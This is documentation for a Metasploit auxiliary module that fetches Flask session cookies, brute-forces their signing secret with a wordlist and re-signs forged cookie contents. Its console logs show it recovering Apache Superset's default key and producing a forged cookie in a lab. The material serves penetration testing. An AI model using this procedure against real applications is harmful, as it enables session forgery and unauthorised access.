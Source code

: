 ## Vulnerable Application

This is a generic module which can manipulate Python Flask-based application cookies.
The Retrieve action will connect to a web server, grab the cookie, and decode it.
The Resign action will do the same as above, but after decoding it, it will replace
the contents with that in NEWCOOKIECONTENT, then sign the cookie with SECRET. This
cookie can then be used in a browser. This is a Ruby based implementation of some
of the features in the Python project Flask-Unsign.

### Example Application

Apache Superset can be used since it is based on Flask.

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin
sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/python_flask_cookie_signer`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should get a decoded cookie

## Actions

### Retrieve

Retrieve a cookie from an HTTP(s) server

### FindSecret

Using the provided wordlist, find the secret key used to sign the cookie

### Resign

Resign the specified cookie data

## Options

### TARGETURI

The URI which gives a cookie. Redirects are NOT followed.

### NEWCOOKIECONTENT

When action is set to `Resign`, the content of the decoded cookie will be replaced with this content.

### SECRET

When action is set to `Resign`, the cookie is signed with this secret.

### SECRET_KEYS_FILE

When action is set to `FindSecret`, a file containing secret keys to try. One per line. Defaults to `metasploit-framework/data/wordlists/flask_secret_keys.txt`

## Scenarios

### Apache Superset 2.0.0

#### Grab the cookie to make sure its a valid cookie that can be decoded. (Retrieve)

```
msf6 > use auxiliary/gather/python_flask_cookie_signer
msf6 auxiliary(gather/python_flask_cookie_signer) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(gather/python_flask_cookie_signer) > set RPORT 8088
RPORT => 8088
msf6 auxiliary(gather/python_flask_cookie_signer) > set TARGETURI /login
TARGETURI => /login
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 192.168.159.128

[*] 192.168.159.128:8088 - Retrieving Cookie
[*] 192.168.159.128:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZDU2N2U1ZDJmYmU1NDIyOTRlMzFhODU5YWFiMjQ5MTcwMDcyNTNhMyIsImxvY2FsZSI6ImVuIn0.ZPoc7Q.y_slNhIvS7PDX1gKMYpBS1nW0L0
[*] 192.168.159.128:8088 - Decoded Cookie: {"csrf_token"=>"d567e5d2fbe542294e31a859aab24917007253a3", "locale"=>"en"}
[*] Auxiliary module execution completed
```

#### Determine the secret key (FindSecret)

```
msf6 auxiliary(gather/python_flask_cookie_signer) > set action FindSecret
action => findsecret
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:8088 - Retrieving Cookie
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZjNlMjU1MzBkZWNkYjE4YzRkYWMxMTQzODgyYjg1ODlmMWM3YzFjYyIsImxvY2FsZSI6ImVuIn0.ZP9b0w.PjZZJJ1lSiUQPacotJV0zbxX3fU
[+] 127.0.0.1:8088 - Found secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] Auxiliary module execution completed
```

#### Sign a new cookie (Resign)

```
msf6 auxiliary(gather/python_flask_cookie_signer) > set NEWCOOKIECONTENT '{"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}'
NEWCOOKIECONTENT => {"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}
msf6 auxiliary(gather/python_flask_cookie_signer) > set SECRET CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
SECRET => CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
msf6 auxiliary(gather/python_flask_cookie_signer) > set ACTION Resign
ACTION => Resign
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 192.168.159.128

[*] Attempting to sign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 192.168.159.128:8088 - New signed cookie: session=IntcImNzcmZfdG9rZW5cIj0-XCIwOGU1MWRkMWYzNTJkNjc5MGU2YWI5Yjk5ZGFkZDYyMTYwMmI5MTg5XCIsIFwibG9jYWxlXCI9PlwiZnJcIn0i.ZPodFA.4hA6OiYpdxAUoOsA9L7DMTVOZkI
[*] Auxiliary module execution completed
msf6 auxiliary(gather/python_flask_cookie_signer) >
```
